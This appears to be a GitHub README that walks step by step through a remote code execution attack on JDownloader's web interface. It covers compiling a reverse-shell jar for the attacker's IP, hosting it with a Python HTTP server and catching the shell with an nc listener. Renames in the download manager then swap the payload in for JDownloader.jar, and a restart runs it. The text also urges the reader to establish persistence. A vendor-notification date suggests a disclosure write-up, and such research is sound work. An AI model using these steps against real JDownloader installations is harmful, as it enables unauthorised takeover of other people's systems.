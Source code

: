 # JDownloader-RCE
Documenting how to exploit JDownloader instances

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way.

## Timeline 

12 04 2024 - Vendor Notified 

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, which is covered by the "Click me / Mouse Over")

![](screenshots/step1.png)


# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://YOUR-IP:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2

![](screenshots/step4.png)

# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 

![](screenshots/step5.png)

# Step 6: Execute. 

**WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code.** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This has been hit-or-miss so don't rely on it. Establish persistence!!) 

![](screenshots/step6.png)

# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 
